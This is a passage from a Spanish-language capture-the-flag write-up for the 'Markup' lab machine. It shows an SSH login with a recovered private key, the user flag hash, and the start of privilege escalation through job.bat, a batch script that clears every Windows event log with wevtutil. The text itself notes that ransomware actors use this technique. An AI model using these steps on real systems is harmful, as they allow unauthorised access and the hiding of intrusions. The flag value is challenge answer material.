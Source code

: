 Intentamos conectar por ssh

```php
nano id_rsa
chmod 600 id_rsa
ssh -i id_rsa daniel@10.129.95.192

Microsoft Windows [Version 10.0.17763.107]
(c) 2018 Microsoft Corporation. All rights reserved.

daniel@MARKUP C:\Users\daniel>

daniel@MARKUP C:\Users\daniel\Desktop>type user.txt
032d2fc8952a8c24e39c8f0ee9918ef7       
```

User flag: 032d2fc8952a8c24e39c8f0ee9918ef7

## Escalada de privilegios

Vemos que en la carpeta indicada hay el bat : job.bat

```bash
daniel@MARKUP C:\Log-Management>type job.bat
@echo off
FOR /F "tokens=1,2*" %%V IN ('bcdedit') DO SET adminTest=%%V
IF (%adminTest%)==(Access) goto noAdmin
for /F "tokens=*" %%G in ('wevtutil.exe el') DO (call :do_clear "%%G")
echo.
echo Event Logs have been cleared!
goto theEnd
:do_clear
wevtutil.exe cl %1
goto :eof
:noAdmin
echo You must run this script as an Administrator!
:theEnd
exit

```

Buscamos que es “wevtutil.exe”

```html
Wevtutil.exe es una utilidad de línea de comandos de administrador que se utiliza principalmente para registrar el proveedor de eventos en el equipo. Proporciona información de metadatos sobre el proveedor, sus eventos y los canales en los que registra eventos, y para consultar eventos desde un canal o archivo de registro. Esta búsqueda busca wevtutil.exe con parámetros para borrar los registros de eventos de la aplicación, la seguridad, la configuración o el sistema, que pueden ser utilizados por los autores de ransomware en preparación para un ataque o durante este.
```

Vemos que este proceso se ejecuta en la maquina victima:
